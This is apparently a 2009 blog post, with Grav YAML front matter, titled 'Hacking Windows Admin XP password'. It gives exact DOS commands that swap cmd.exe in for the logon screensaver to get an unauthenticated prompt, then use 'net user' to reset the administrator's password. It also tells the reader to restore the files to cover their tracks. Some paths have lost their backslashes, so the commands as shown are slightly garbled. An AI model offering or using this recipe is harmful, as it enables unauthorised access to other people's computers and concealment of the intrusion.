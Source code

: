 ```yaml
---
# http://learn.getgrav.org/content/headers
title: Hacking Windows Admin XP password
slug: hacking-windows-admin-xp-password
# menu: Hacking Windows Admin XP password
date: 08-06-2009
published: true
publish_date: 08-06-2009
# unpublish_date: 08-06-2009
# template: false
# theme: false
visible: true
summary:
    enabled: true
    format: short
    size: 128

taxonomy:
    category:
        - Blog
    tag:
        - hack
        - windows
        - XP
    author:
        - 'Shashank Agarwal'
    migration-status: review
    category: [hack,windows,XP]
    tag: []
author: 'Shashank Agarwal'
metadata:
    author: 'Shashank Agarwal'
#      description: Your page description goes here
#      keywords: HTML, CSS, XML, JavaScript
#      robots: noindex, nofollow
#      og:
#          title: The Rock
#          type: video.movie
#          url: http://www.imdb.com/title/tt0117500/
#          image: http://ia.media-imdb.com/images/rock.jpg
#  cache_enable: false
#  last_modified: true

---
```


This is a cool little computer trick for Microsoft Windows trick I’ve picked up in my travels and decided to share it with you fine and ethical individuals =). Log in and go to your DOS command prompt and enter these commands exactly:

cd  
cdwindowssystem32  
mkdir temphack  
copy logon.scr temphacklogon.scr  
copy cmd.exe temphackcmd.exe  
del logon.scr  
rename cmd.exe logon.scr  
exit

So what you just told windows to backup is the command program and the screen saver file. Then you edited the settings so when windows loads the screen saver, you will get an unprotected dos prompt without logging in. When this appears enter this command that’s in parenthesis (net user password). So if the admin user name is Doug and you want the password 1234 then you would enter “net user Doug 1234″ and now you’ve changed the admin password to 1234. Log in, do what you want to do, copy the contents of temphack back into system32 to cover your tracks.

Go to our new site- shankee.com
